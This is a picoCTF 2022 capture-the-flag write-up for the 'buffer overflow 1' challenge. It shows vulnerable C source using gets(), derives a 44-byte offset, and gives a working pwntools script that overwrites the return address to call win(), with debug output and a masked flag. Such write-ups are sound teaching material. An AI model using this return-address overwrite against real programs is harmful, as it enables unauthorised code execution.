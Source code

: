 # buffer overflow 1

Tags: picoCTF 2022, Binary Exploitation

| Author | Point    |
| ------ | -------- |
| SANJAY C / PALASH OSWAL | 200 points |

## Description

Control the return address  
Now we're cooking! You can overflow the buffer and return to the flag function in the program.  
You can view source here. And connect with it using nc saturn.picoctf.net 51768  

## Solve

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

In my opinion, the flow is main() -> vuln() -> win(). If the get of vuln() overflows, processing can proceed as described above.

The distance from buf to the return address is -0x02c, which is 44 bytes.

![](<./images/CleanShot 2024-04-17 at 20.43.58.png>)

Overflow buf and overwrite return address. The offset to the return address is 44 bytes.

function win() address is 0x080491f6.

![](<./images/CleanShot 2024-04-17 at 20.48.36.png>)

So, the following is the payload:

```python
payload = b''
payload += b'A' * 44 # Junk
payload += p32(0x080491f6) # Return address
```

The full exploit code is as follows.

```python
from pwn import *

context.log_level = 'debug'

host = 'saturn.picoctf.net'
port = 62804

p = remote(host, port)

p.recvline()

payload = b''
payload += b'A' * 44 # Junk
payload += p32(0x080491f6) # Return address

p.sendline(payload)

p.recvall()
```

```bash
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 62804: Done
[DEBUG] Received 0x1b bytes:
    b'Please enter your string: \n'
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  f6 91 04 08  │AAAA│AAAA│AAAA│····│
    00000030  0a                                                  │·│
    00000031
[+] Receiving all data: Done (100B)
[DEBUG] Received 0x40 bytes:
    b'Okay, time to return... Fingers Crossed... Jumping to 0x80491f6\n'
[DEBUG] Received 0x24 bytes:
    b'picoCTF{addr3ss3s_ar3_3asy_********}'
[*] Closed connection to saturn.picoctf.net port 62804
```

## Flag

```
picoCTF{addr3ss3s_ar3_3asy_********}
```